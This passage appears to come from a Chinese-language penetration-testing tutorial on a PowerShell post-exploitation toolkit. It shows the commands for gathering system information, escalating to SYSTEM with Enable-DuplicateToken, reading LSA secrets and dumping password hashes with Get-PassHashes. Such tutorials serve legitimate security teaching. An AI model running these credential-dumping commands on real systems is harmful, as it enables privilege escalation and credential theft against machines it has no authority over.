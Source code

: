 ```powershell
PS > Get-Information
```
![get-info](./img/framework/get-info.jpg)
还可以用我们前面说过的Out-File来将运行结果保存到指定文件。
#### Get-LSASecret
该脚本可以获取LSA信息，但是使用的前提当然是你已经成功提升了权限的情况下，通常和我们后面提权当中涉及到的Enable-DuplicateToken（帮助我们获得System权限）联合使用。
执行方式：

```powershell
PS > Enable-DuplicateToken
PS > Get-LsaSecret
PS > Get-LsaSecret -RegistryKey KeyName //还可以指定键名
```
#### Get-PassHashes
这个脚本在Administrator的权限下，可以dump出密码哈希值。这个脚本来自于msf中powerdump，但做出了修改，使得我们不再需要System权限就可以dump了。
执行方式：

```powershell
PS > Get-PassHashes -PSObjectFormat //可以使用-PSObjectFormat来格式化输出结果
```